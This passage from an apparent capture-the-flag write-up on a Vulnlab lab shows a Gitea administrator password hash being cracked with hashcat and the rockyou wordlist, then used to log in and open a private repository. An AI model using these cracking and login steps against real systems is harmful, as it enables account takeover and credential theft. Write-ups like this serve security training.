 Save in `administrator.gitea.hash`:

```
sha256:50000:b3z0qjT+uSIJLvn3yjQvpQ==:9Xo9XRmayAVMcJ5mW060hC8OFyolOpYDi+Xvnm/nsCkPLXFVJIg90ResMJ6HjB276QI=
```

```shell-session
└─$ hashcat -a0 -m10900 administrator.gitea.hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:b3z0qjT+uSIJLvn3yjQvpQ==:9Xo9XRmayAVMcJ5mW060hC8OFyolOpYDi+Xvnm/nsCkPLXFVJIg90ResMJ6HjB276QI=:<ADMIN_GITEA_PASS>
```

We can try to do the same with juan's hash but it doesn't crack with `rockyou.txt`.

## Gitea (as administrator)

Now we can login to Gitea with the administrator's password we just cracked, and access the private repository `home-backup` at <http://code.unintended.vl/juan/home-backup>.

![](/assets/vulnlab/chains/unintended/img/9.png)
